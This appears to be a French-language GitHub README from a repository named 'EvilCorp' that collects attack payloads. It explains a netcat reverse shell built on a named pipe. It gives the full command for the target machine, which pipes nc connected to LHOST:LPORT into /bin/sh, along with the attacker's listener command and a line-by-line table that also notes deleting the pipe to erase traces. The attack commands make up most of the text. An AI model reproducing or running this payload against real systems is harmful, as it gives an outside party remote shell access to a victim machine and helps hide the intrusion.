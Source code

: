 # EvilCorp

## Payloads

### Simple Netcat playload : Reverse shell
Payload en utilisant Netcat (nc) comme reverse shell.  


Commandes :  
`man mkfifo ... mkfifo - make FIFOs (named pipes)`  
`man nohup  ... nohup  - run a command immune to hangups, with output to a non-tty`  

Machine cible : 
```bash
nohup mkfifo /tmp/hago; nc LHOST LPORT 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago
```

Machine serveur `LHOST:LPORT` :
```bash
nc -lnvp LPORT
```


| Commande | Explication  |  
|----------|--------------|
|`nc LHOST LPORT 0</tmp/hago      `   | Crée un client qui envoie ce qui est recu sur le pipe `hago` |
|`nc ... \| /bin/sh >/tmp/hago    `  | Exécute avec l'interpréteur bash ce que recoit le client nc et écrit le résultat dans le pipe | 
|`2>&1`                         | Redirige la sortie erreur(2) sur l'affichage standard(1) qui est envoyer par nc au serveur. `2>&1` plutôt que `2>1`. Le second redirigie la sortie erreur dans un fichier nommé '1' | 
|`rm /tmp/hago`                 | On termine en effaçant les traces du payload |


Résumé :    
Le serveur envoie des commandes exécutées par le client et recois le résultat et les erreurs.



